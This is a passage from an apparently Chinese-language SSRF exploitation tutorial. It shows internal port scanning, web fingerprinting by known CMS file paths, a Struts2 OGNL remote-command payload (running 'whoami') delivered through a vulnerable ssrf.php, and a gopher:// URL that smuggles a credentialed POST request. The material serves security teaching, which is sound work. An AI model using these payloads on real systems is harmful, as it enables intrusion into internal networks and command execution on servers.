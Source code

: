  

探测个3306端口



```
http://localhost/ssrf.php?url=http://192.168.1.124:3306
```

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161509597-527770927.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161509597-527770927.png)

随便探测一个端口（这里这个5357是开放的）



```
http://localhost/ssrf.php?url=http://192.168.1.124:5357
```

[![img](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161534747-1833187621.png)](https://img2020.cnblogs.com/blog/1423858/202112/1423858-20211207161534747-1833187621.png)

**有一些端口服务的banner有就会探测到输出到页面上，或者开放的端口访问的状态码是5开头(500、501、503...)或者4开头(403、404...)等。端口未开放访问的网页的时间会比较长**

## 6.4. 对内网web进行指纹识别

通过构造一些cms的特征图片、目录、文件等去进行请求，如果内网192.168.1.124这台服务8080端口存在phpmyadmin，访问就会出现该图片

其他的同理

 

- http://192.168.1.124:8080/phpMyAdmin/themes/original/img/b_tblimport.png
- http://192.168.1.124:8081/wp-content/themes/default/images/audio.jpg
- http://192.168.1.124:8082/profiles/minimal/translations/README.txt

**。**

## 6.5. 对内部主机和端口发送请求包进行攻击

这里是用get方法可以攻击的web，比如struts2命令执行、Thinkphp、Jboss等。

以下是针对内网192.168.1.139这台服务器进行攻击，执行命令whoami



```
http://localhost/ssrf.php?url=http://192.168.1.139:8081/${%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}.action
```

 

post方法我们可以用gophar协议去发送请求数据包



```
http://localhost/ssrf.php?url=gopher://192.168.1.124:6667/_POST%20%2findex.php%20HTTP%2f1.1%250d%250aHost%3A%20127.0.0.1%3A2233%250d%250aConnection%3A%20close%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%26password%3Dpassword
```
